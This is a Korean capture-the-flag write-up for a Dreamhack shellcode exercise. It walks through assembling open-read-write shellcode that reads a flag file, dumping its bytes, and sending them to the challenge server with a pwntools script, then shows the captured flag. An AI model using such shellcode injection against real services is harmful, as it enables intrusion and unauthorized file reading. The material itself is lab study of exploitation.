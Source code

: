 단계에서 1번을 완성하였다.

```bash
root@ubuntu://home/user/Desktop# nasm -f elf64 shell_code.asm

--------------------------------2번완료---------------------------

root@ubuntu://home/user/Desktop# objcopy --dump-section .text=shell_code.bin shell_code.o
root@ubuntu://home/user/Desktop# ls
execve      execve.c  execve.S        shell_code.bin  write.asm
execve.bin  execve.o  shell_code.asm  shell_code.o

----------------------------------3번완료-----------------------

root@ubuntu://home/user/Desktop# xxd shell_code.bin
00000000: 6a00 48b8 6f6f 6f6f 6f6f 6e67 5048 b861  j.H.oooooongPH.a
00000010: 6d65 5f69 735f 6c50 48b8 632f 666c 6167  me_is_lPH.c/flag
00000020: 5f6e 5048 b865 6c6c 5f62 6173 6950 48b8  _nPH.ell_basiPH.
00000030: 2f68 6f6d 652f 7368 5048 89e7 4831 f648  /home/shPH..H1.H
00000040: 31d2 b802 0000 000f 0548 89c7 4889 e648  1........H..H..H
00000050: 81ee 0001 0000 ba00 0100 0048 31c0 0f05  ...........H1...
00000060: bf01 0000 00b8 0100 0000 0f05            ............                ..........

----------------------------------4번완료-----------------------
```

따라서 쉘코드는 저 값들에 일일이 \x를 붙여준 값이다. 쉘코드를 찾아냈으니 연결하여 넘겨주면 된다. pwntools를 이용하여 넘겨주었다.

```python
#! /usr/bin/python3
from pwn import *

p=remote("host2.dreamhack.games",23269)
shell=b"\x6a\x00\x48\xb8\x6f\x6f\x6f\x6f\x6f\x6f\x6e\x67\x50\x48\xb8\x61\x6d\x65\x5f\x69\x73\x5f\x6c\x50\x48\xb8\x63\x2f\x66\x6c\x61\x67\x5f\x6e\x50\x48\xb8\x65\x6c\x6c\x5f\x62\x61\x73\x69\x50\x48\xb8\x2f\x68\x6f\x6d\x65\x2f\x73\x68\x50\x48\x89\xe7\x48\x31\xf6\x48\x31\xd2\xb8\x02\x00\x00\x00\x0f\x05\x48\x89\xc7\x48\x89\xe6\x48\x81\xee\x00\x01\x00\x00\xba\x00\x01\x00\x00\x48\x31\xc0\x0f\x05\xbf\x01\x00\x00\x00\xb8\x01\x00\x00\x00\x0f\x05"

p.recvuntil(b"shellcode: ")
p.send(shell)
p.interactive()
```

#! /usr/bin/python3 는 자꾸 can’t read /var/mail/pwn 에러가 떠서 추가시켜주었다. 

```bash
DH{ca562d7cf1db6c55cb11c4ec350a3c0b}
\x00\x00\xe0\xde\xf4U\x00 o\xed\x9c\xfd\x7f\x00\x00\x00\x00\x00\x00\x00\x00\x00@n\xed\x9c\xfd\x7f\x00\xe6n\xefd\xb3\x7f\x0\x00\x00\x00\x00n\xed\x9c\xfd\x7f\x00`m\xed\x9c\xfd\x7f\x00\x00\xc2M\x07)6\x00\x00\x00\x00\x00\x00\x00\x00\xd0\x9a\xdf\xf4U\x00\x00\x00\x00\x00\xff\xff\xff\xff\x00\x00P\x00\x00\x00\x00\x00\x00\x00\x00](e\xb3\x7f\x00P\x00\x00\x00\x00\x00\x00U\x00\xd0\x9a\xdf\xf4U\x00\x00\xc2M\x07)6`\x12\xdf\xf4U\x00\x10\xed\x9c\xfd\x7f\x00`    \xe0\xde\xf4U\x00 o\xed\x9c\xfd\x7f\x00\x00\x00\x00\x00$                  [*] Got EOF while reading in interactive
$
```

결과값으로 DH와 그 이후 필요 없는 값 들이 나오는데 이는 넉넉하게 버퍼를 0x100으로 설정해서 DH 문자열이 저장된 공간 그 뒤에 있는 값까지 나오는 것이다.

